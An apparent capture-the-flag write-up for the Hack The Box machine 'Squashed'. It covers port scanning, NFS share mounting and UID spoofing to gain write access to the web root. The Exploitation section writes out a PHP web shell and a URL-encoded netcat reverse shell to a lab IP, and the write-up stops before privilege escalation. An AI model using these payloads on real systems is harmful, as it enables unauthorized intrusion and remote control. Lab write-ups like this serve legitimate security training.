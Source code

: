 # Squashed (Easy)

<figure><img src="../../../.gitbook/assets/Squashed.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine

{% embed url="https://www.revshells.com/" %}

* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

{% embed url="https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" %}

If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

* Let's transfer and run linpeas

On Kali -- Start HTTP server for file transfer:

```
python3 -m http.server
```

On reverse shell -- wget for catching hosted file:

```
wget http://<kali_ip_here>:8000/linpeas_linux_amd64
```

Change permissions and execute file:

```
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

* I was unble to find something of use

### Local enumeration

### PrivEsc vector

##

